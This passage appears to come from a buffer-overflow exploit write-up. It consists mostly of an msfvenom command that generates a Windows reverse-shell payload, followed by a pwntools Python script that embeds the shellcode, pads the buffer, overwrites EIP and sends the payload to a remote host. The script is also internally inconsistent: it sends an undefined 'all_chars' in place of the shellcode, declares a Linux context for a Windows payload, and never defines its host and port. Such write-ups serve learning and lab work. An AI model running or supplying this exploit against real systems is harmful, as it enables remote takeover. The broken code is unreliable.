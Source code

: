 ``` bash
$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=9001 -b "\x00\x0a\x0d\xff" -f py -v shellcode EXITFUNC=thread
```

I add the generated shellcode to my exploit and add some nops to it so the program will have time to execute the shellcode
```python
from pwn import *

context(arch="i386",os="linux")

def exploit():
    
    buffer = b"\x55" * 1052
    eip = p32(0x0040D7ED)
    
    nops = b"\x90" * 32

    shellcode =  b""
    shellcode += b"\xdb\xdf\xd9\x74\x24\xf4\xba\x4e\x4a\x17\xbe"
    shellcode += b"\x58\x31\xc9\xb1\x52\x31\x50\x17\x83\xc0\x04"
    shellcode += b"\x03\x1e\x59\xf5\x4b\x62\xb5\x7b\xb3\x9a\x46"
    shellcode += b"\x1c\x3d\x7f\x77\x1c\x59\xf4\x28\xac\x29\x58"
    shellcode += b"\xc5\x47\x7f\x48\x5e\x25\xa8\x7f\xd7\x80\x8e"
    shellcode += b"\x4e\xe8\xb9\xf3\xd1\x6a\xc0\x27\x31\x52\x0b"
    shellcode += b"\x3a\x30\x93\x76\xb7\x60\x4c\xfc\x6a\x94\xf9"
    shellcode += b"\x48\xb7\x1f\xb1\x5d\xbf\xfc\x02\x5f\xee\x53"
    shellcode += b"\x18\x06\x30\x52\xcd\x32\x79\x4c\x12\x7e\x33"
    shellcode += b"\xe7\xe0\xf4\xc2\x21\x39\xf4\x69\x0c\xf5\x07"
    shellcode += b"\x73\x49\x32\xf8\x06\xa3\x40\x85\x10\x70\x3a"
    shellcode += b"\x51\x94\x62\x9c\x12\x0e\x4e\x1c\xf6\xc9\x05"
    shellcode += b"\x12\xb3\x9e\x41\x37\x42\x72\xfa\x43\xcf\x75"
    shellcode += b"\x2c\xc2\x8b\x51\xe8\x8e\x48\xfb\xa9\x6a\x3e"
    shellcode += b"\x04\xa9\xd4\x9f\xa0\xa2\xf9\xf4\xd8\xe9\x95"
    shellcode += b"\x39\xd1\x11\x66\x56\x62\x62\x54\xf9\xd8\xec"
    shellcode += b"\xd4\x72\xc7\xeb\x1b\xa9\xbf\x63\xe2\x52\xc0"
    shellcode += b"\xaa\x21\x06\x90\xc4\x80\x27\x7b\x14\x2c\xf2"
    shellcode += b"\x2c\x44\x82\xad\x8c\x34\x62\x1e\x65\x5e\x6d"
    shellcode += b"\x41\x95\x61\xa7\xea\x3c\x98\x20\xd5\x69\x9a"
    shellcode += b"\xb1\xbd\x6b\xda\x92\x14\xe5\x3c\xbe\x76\xa3"
    shellcode += b"\x97\x57\xee\xee\x63\xc9\xef\x24\x0e\xc9\x64"
    shellcode += b"\xcb\xef\x84\x8c\xa6\xe3\x71\x7d\xfd\x59\xd7"
    shellcode += b"\x82\x2b\xf5\xbb\x11\xb0\x05\xb5\x09\x6f\x52"
    shellcode += b"\x92\xfc\x66\x36\x0e\xa6\xd0\x24\xd3\x3e\x1a"
    shellcode += b"\xec\x08\x83\xa5\xed\xdd\xbf\x81\xfd\x1b\x3f"
    shellcode += b"\x8e\xa9\xf3\x16\x58\x07\xb2\xc0\x2a\xf1\x6c"
    shellcode += b"\xbe\xe4\x95\xe9\x8c\x36\xe3\xf5\xd8\xc0\x0b"
    shellcode += b"\x47\xb5\x94\x34\x68\x51\x11\x4d\x94\xc1\xde"
    shellcode += b"\x84\x1c\xe1\x3c\x0c\x69\x8a\x98\xc5\xd0\xd7"
    shellcode += b"\x1a\x30\x16\xee\x98\xb0\xe7\x15\x80\xb1\xe2"
    shellcode += b"\x52\x06\x2a\x9f\xcb\xe3\x4c\x0c\xeb\x21"

    payload = buffer + eip + all_chars

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()    
```
